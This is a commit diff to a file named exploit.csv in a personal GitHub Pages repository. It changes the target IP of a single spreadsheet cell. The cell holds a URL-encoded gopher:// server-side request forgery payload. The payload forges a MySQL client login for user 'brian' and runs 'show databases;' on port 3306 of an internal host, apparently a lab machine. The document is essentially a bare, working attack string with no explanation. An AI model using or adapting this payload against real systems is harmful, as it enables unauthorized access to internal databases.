

Before and after one commit to LeKvND/lekvnd.github.io, a CSV file: exploit.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update exploit.csv

```diff
--- a/exploit.csv
+++ b/exploit.csv
-C2 (catalogURL): gopher://127.0.0.1:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
+C2 (catalogURL): gopher://10.10.10.53:3306/_%a4%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%62%72%69%61%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01
```
